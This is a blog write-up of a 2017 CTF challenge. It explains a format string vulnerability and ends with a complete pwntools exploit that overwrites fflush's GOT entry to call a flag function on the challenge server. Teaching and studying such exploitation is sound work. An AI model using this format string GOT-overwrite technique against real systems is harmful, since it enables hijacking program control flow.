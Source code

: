 ```yaml
---
layout: post
title: backdoorctf 2017 - BABY 0x41414141 Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```




Executing the binary for the first time we have this behaviour:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-1.png">

Ok, cool, decompile it.

This is the main function:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-2.png">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img class="img-responsive" src="{{ site-url }}/assets/backdoorctf17/baby-3.png">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints 0x41414141.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that %n writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

{% highlight python %}
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
{% endhighlight %}

